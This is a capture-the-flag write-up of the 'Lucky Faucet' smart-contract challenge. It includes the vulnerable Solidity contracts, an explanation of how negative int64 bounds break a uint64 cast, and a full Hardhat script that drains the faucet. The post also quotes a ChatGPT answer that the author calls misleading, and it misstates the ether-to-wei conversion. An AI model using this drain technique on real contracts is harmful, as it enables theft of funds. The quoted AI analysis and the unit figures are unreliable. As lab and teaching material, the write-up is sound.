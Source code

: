 ```yaml
---
published: 2024-03-16
title: Lucky Faucet

---
```


It has been a while since my last CTF but I decided to join the HTB’s CyberApocalypse 2024.  
  
This challenge was pretty easy but also engaging, we have two contracts:  
  
`Setup.sol`

```Solidity
 // SPDX-License-Identifier: UNLICENSED
pragma solidity 0.7.6;

import {LuckyFaucet} from "./LuckyFaucet.sol";

contract Setup {
    LuckyFaucet public immutable TARGET;

    uint256 constant INITIAL_BALANCE = 500 ether;

    constructor() payable {
        TARGET = new LuckyFaucet{value: INITIAL_BALANCE}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance <= INITIAL_BALANCE - 10 ether;
    }
}
```

Basically we have to withdraw 10 or more ether from the initial contract balance of 500

`LuckyFaucet.sol`

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

contract LuckyFaucet {
    int64 public upperBound;
    int64 public lowerBound;

    constructor() payable {
        // start with 50M-100M wei Range until player changes it
        upperBound = 100_000_000;
        lowerBound =  50_000_000;
    }

    function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);
        // why? because if you don't need this much, pls lower the upper bound :)
        // we don't have infinite money glitch.
        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }

    function sendRandomETH() public returns (bool, uint64) {
        int256 randomInt = int256(blockhash(block.number - 1)); // "but it's not actually random 🤓"
        // we can safely cast to uint64 since we'll never 
        // have to worry about sending more than 2**64 - 1 wei 
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
        bool sent = msg.sender.send(amountToSend);
        return (sent, amountToSend);
    }
}
```

So, at a first glance we can withdraw at most 10M gwei, now given `1 ETH` = `10e18 Wei` we should do something in the range of `10e15` requests, not really feasible.

Clearly `setBounds` is the target functions to exploit, and there is something weird with `int64` params and the mechanism as a whole.

At this point I decided to query chatGPT on it, just in case

> [!important] Hey chatgpt, do you see any potential bug in the code ?

> Yes, there is a potential bug in the `**sendRandomETH()**` function related to the type conversion of the `**randomInt**` variable. Let me explain:

> The line `**int256 randomInt = int256(blockhash(block.number - 1));**` retrieves the blockhash of the previous block and casts it to an `**int256**` type. This conversion may result in a negative value since the blockhash is a hexadecimal value, and when interpreted as a signed integer, it can be negative.

> Later in the code, the expression `**randomInt % (upperBound - lowerBound + 1) + lowerBound**` is used to generate a random number within the specified range. However, if `**randomInt**` is negative, the result of the modulo operation may also be negative, which can lead to unexpected behavior.

> Additionally, the comment "we can safely cast to uint64" might not hold true if `**randomInt**` is negative and larger than the maximum value representable by a `**uint64**`. This can result in an incorrect amount of Ether being sent or even cause a revert due to underflow.

> To address this issue, you can consider using a more robust method for generating randomness, such as a provably fair random number generator (RNG) or integrating an external randomness source like Chainlink VRF (Verifiable Random Function). These methods ensure that the generated random number is unbiased and cannot be manipulated by miners or other parties.

> In summary, the potential bug lies in the conversion of the blockhash to an integer and the subsequent calculation of the random number. Using a more reliable method for generating randomness would improve the security and reliability of the contract.

  

I have to admit that chatGPT is amazing at gaslighting, everything seems to make sense even though it doesn’t really add up. However it mentions the `setBounds` functions and negative integers/modulus that is an interesting starting point.

It’s not exactly how chatGPT described it, but clearly the problem is that there is no check for negative numbers and uint works with modulus.

```Python
  require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
  require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
  require(_newLowerBound <= _newUpperBound);
```

We need to take out around `~ 2**63 wei`, the modulus is `2**64`therefore if we manage to put a random negative number in the modulus we can expect to drain the `10 eth` in a few attempts  
  

```JavaScript
import { ethers } from "hardhat";

async function main() {

    const SetupAddress = "0xcFAF2992b981cAB5a01206C5705A3AbEFC76B4C4"
    const Setup = await ethers.getContractAt("Setup", SetupAddress);
    console.log(`Setup: ${await Setup.getAddress()}`);
    console.log(`isSolved: ${await Setup.isSolved()}`);


    const LuckyFaucetAddress = await Setup.TARGET()
    const LuckyFaucet = await ethers.getContractAt("LuckyFaucet", LuckyFaucetAddress);
    console.log(`LuckyFaucet: ${await LuckyFaucet.getAddress()}`);

    const targetBalancePre = await ethers.provider.getBalance(LuckyFaucetAddress)
    console.log(`targetBalance: ${targetBalancePre}`);

    const newUpperBound = - (10_000_000_000)
    const newLowerBound = - (50_000_000_000)
    await LuckyFaucet.setBounds(newLowerBound, newUpperBound)
    const result = await LuckyFaucet.sendRandomETH()
    console.log(`sendRandomEth: ${result[0]} ${result[1]}`);

    const targetBalancePost = await ethers.provider.getBalance(LuckyFaucetAddress)
    console.log(`diff: ${targetBalancePost - targetBalancePre}`);
    console.log(`isSolved: ${await Setup.isSolved()}`);

}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

This is actually the first time I used `hardhat` to make this sort of challenges and I have to admit that is waay superior to python for the task

And finally we get the flag

```Bash
$ nc 83.136.252.62 38754
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{1_f0rg0r_s0m3_U}
```